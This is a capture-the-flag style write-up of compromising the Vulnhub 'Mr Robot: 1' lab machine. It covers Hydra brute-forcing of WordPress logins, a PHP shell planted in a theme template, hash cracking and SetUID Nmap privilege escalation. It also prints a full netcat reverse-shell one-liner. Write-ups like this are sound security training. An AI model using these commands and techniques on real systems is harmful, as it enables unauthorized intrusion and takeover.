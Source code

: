 ```yaml
---
layout: post
title:  "Mr Robot: 1 Write-Up"
categories: [write-ups]
permalink: /write-ups/mrrobot_1_writeup/
---
```

MrRobot 1 is an intermediate OSCP-like machine (according to the [Abatchy's list](https://www.abatchy.com/2017/02/oscp-like-vulnhub-vms)) hosted on Vulnhub. This machine is a little bit different from the other ones, in this one the goal is to read the three hidden keys in the machine.
<h1>Network Scan</h1>
As always, I've used Nmap to sweep the network and get the IP of the target machine.
![NetScan](netScan.png)
The IP of the target machine is 192.168.56.132.
<br><br>
<h1>Port Scan</h1>
![PortScan](portScan.png)
There are only two ports open (80 and 443) and both of them host the same webpage.
<br><br>
<h1>Port 80 Enumeration</h1>
The root page has an interactive MrRobot themed page but it doesn't lead to anything useful. Nikto found that the site has WordPress 4.3.1 installed and I found some entries inside the robots.txt file.
![Nikto Output](nikto.png)
![Robots.txt](robots.png)
The key-1-of-3.txt file contains the first key while fsocity.dic is a dictionary with some repetitions. I removed the repetitions using "cat port80/fsocity.dic | sort | uniq > port80/fsocityFilt.dic"
<br><br>
<h1>WordPress Bruteforce</h1>
I noticed that the WordPress login page error message was "Invalid username", so I tried to bruteforce the username using Hydra. To do so I used the Network Firefox utility to get the necessary parameters to login.
![POST Parameters](postParams.png) 
![Invalid username message](invalidUser.png)
![Hydra User Bruteforce](hydra1.png)
Hydra found the "Elliot" username, so I tried to bruteforce his password using the fsocity dictionary.
![Invalid password message](invalidPass.png)
![Hydra Password Bruteforce](hydra2.png)
<h1>WordPress Access</h1>
Using the credentials found with Hydra I logged in as Elliot, who has Administrator privileges.
![WordPress Users](wordpressUsers.png)
With the Administrator privileges we can simply edit a php file of the template with a simple php shell (I used 404.php because it is easy to get it executed). I also found that we can upload a malicious plugin or try to use both CVE-2019-8942 and CVE-2019-8943 to get RCE (I wasn't able to exploit them).
![Editing 404](404Edit.png)
Once I had the simple shell I executed "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.10 1234 >/tmp/f" to get a reverse shell.
![Reverse shell 1](revShell1.png)
![Reverse shell 2](revShell2.png)
<h1>Daemon Shell</h1>
I found the second key and a MD5 hash inside the /home/robot/ directory, but the key wasn't readable with my user, so I used hashcat to crack the hash.
![ls /home/robot/](lsRobotHome.png)
![password.raw-md5](passwordMD5.png)
![Hashcat cracking](hashcat.png)
Hashcat cracked the hash successfully, giving us the password "abcdefghijklmnopqrstuvwxyz".
<h1>Robot Shell and Privesc to Root</h1>
Using "su robot" with the "abcdefghijklmnopqrstuvwxyz" password I got access to the robot user. Running LinEnum I saw that Nmap was installed in the machine and that it had the SetUID bit enabled. Nmap has an interactive mode, so I used it to get a shell with an efective user id of 0 (root). I know that there are methods to get UID == 0, but having only the EUID was fine for me. The last key was inside /root/.
![PrivEsc to root](privesc.png)
<h1>Conclusions</h1>
This is a really straightforward machine if you know what are you doing, so I don't really get why it is rated as intermediate. Nevertheless, it is a funny machine to root, even though it is a little bit too CTF-like for me.
